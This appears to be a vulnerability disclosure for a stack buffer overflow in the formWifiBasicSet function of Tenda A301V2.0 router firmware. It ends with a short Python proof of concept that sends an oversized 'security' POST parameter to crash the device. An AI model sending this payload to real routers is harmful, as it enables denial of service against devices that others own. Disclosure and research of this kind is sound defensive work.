



## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3328.html

## Affected version

A301V2.0 Firmware  V15.13.08.12

## Vulnerability details

In the Tenda A301V2.0 Firmware  V15.13.08.12 has a stack overflow vulnerability located in the `formWifiBasicSet` function. This function accepts the `security` parameter from a POST request. When `is_ssid0_wds_mode(0)` returns False, which means wds mode is disabled, the `security` parameter is directly copied to `param[256]`, causing a buffer overflow.





## PoC

```python
import requests
from pwn import*

ip = "192.168.244.143"
url = "http://" + ip + "/goform/WifiBasicSet"
payload = b"a"*2000

data = {
    "security": payload,
}

response = requests.post(url, data=data)
print(response.text)
```

